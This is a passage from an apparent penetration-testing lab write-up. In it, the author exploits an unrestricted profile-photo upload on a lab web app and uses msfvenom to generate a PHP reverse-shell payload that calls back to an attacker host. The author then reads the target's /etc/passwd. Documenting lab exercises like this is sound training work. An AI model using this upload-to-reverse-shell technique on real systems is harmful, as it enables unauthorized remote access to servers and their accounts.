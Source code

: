 Credentials don’t work for phpmyadmin login. Browse to 192.168.56.104/academy based on note info. Find student login.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9dbd598d-7e94-428f-b960-b32eeb89a882/9dd06479-4067-4d69-979a-660f8ec5cfd2/image.png)

Can upload new profile photo and it seems to allow any file type:

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9dbd598d-7e94-428f-b960-b32eeb89a882/61bb91b2-0030-4f13-9c93-a7f96a10a068/image.png)

And can browse to uploaded file:

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9dbd598d-7e94-428f-b960-b32eeb89a882/186bc7f7-23a8-45d3-9bd9-c897cbd4fd59/image.png)

I generated a php reverse shell file with this command:

```
$ msfvenom -p php/reverse_php LHOST=192.168.56.102 LPORT=6000 -f raw > payload.php
```

Then uploaded it and refreshed the page to get a nc connection.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/9dbd598d-7e94-428f-b960-b32eeb89a882/92c17861-8862-4d1b-8791-af0a37aa2fef/image.png)

/etc/passwd shows the users on the machine

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash

```
